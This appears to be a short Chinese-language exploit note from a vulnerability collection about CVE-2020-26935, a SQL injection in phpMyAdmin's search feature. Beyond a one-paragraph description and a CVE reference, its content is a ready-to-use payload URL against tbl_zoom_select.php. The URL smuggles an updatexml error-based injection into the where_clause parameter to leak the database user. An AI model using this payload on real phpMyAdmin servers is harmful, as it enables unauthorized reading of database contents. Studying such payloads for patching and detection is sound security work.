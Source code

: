 # CVE-2020-26935 phpmyadmin后台SQL注入

在4.9.6之前的phpMyAdmin和5.0.3之前的5.x的SearchController中发现一个问题。在phpMyAdmin如何处理搜索功能中的SQL语句中发现了一个SQL注入漏洞。攻击者可以利用此漏洞将恶意SQL注入查询。

Payload：


```sql
http://127.0.0.1/tbl_zoom_select.php?db=pentest&table=a&get_data_row=1&where_clause=updatexml(1,concat(0x7e,user()),1)
```

![](media/16097301750220/16097301904175.jpg)


Reference

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26935

via：copy@xianzhi

from：https://xz.aliyun.com/t/8524